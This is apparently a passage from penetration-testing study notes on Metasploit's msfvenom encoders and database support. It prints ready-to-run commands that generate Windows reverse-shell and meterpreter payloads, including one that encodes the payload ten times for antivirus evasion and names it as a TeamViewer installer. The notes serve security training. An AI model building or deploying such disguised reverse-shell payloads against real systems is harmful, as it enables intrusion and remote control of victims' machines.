 After 2015, updates to these scripts combined them into the `msfvenom` tool, which handles payload generation and encoding.

#### Generating Payload - Without Encoding
```bash
msfvenom -a x86 --platform windows -p windows/shell/reverse_tcp LHOST=127.0.0.1 LPORT=4444 -b "\x00" -f perl
```

#### Generating Payload - With Encoding
```bash
msfvenom -a x86 --platform windows -p windows/shell/reverse_tcp LHOST=127.0.0.1 LPORT=4444 -b "\x00" -f perl -e x86/shikata_ga_nai
```

### Using `msfvenom` with Multiple Encoders

One better option would be to try running the payload through multiple iterations of the same Encoding scheme:

```bash
msfvenom -a x86 --platform windows -p windows/meterpreter/reverse_tcp LHOST=10.10.14.5 LPORT=8080 -e x86/shikata_ga_nai -f exe -i 10 -o TeamViewerInstall.exe
```

The `-i` flag specifies the number of iterations. However, this does not guarantee evasion against modern AV systems.

### Compatible Encoders

To check which encoders are compatible with a specific exploit or payload, use the `show encoders` command in `msfconsole`.

#### Example:
```bash
msf6 exploit(windows/smb/ms17_010_eternalblue) > show encoders
```

This command displays a list of compatible encoders for the selected module.

---

Encoders in Metasploit are useful for compatibility and some evasion scenarios, but modern AV systems have improved their detection capabilities. For advanced evasion techniques, alternative tools and methods are required.



# Databases in Metasploit Framework

Databases in `msfconsole` are used to keep track of your results. During complex assessments of machines or entire networks, managing results, entry points, detected issues, discovered credentials, etc., can become overwhelming. Databases help to organize and manage this data efficiently.

Metasploit Framework supports the PostgreSQL database system, enabling quick access to scan results and seamless import/export capabilities with third-party tools.

---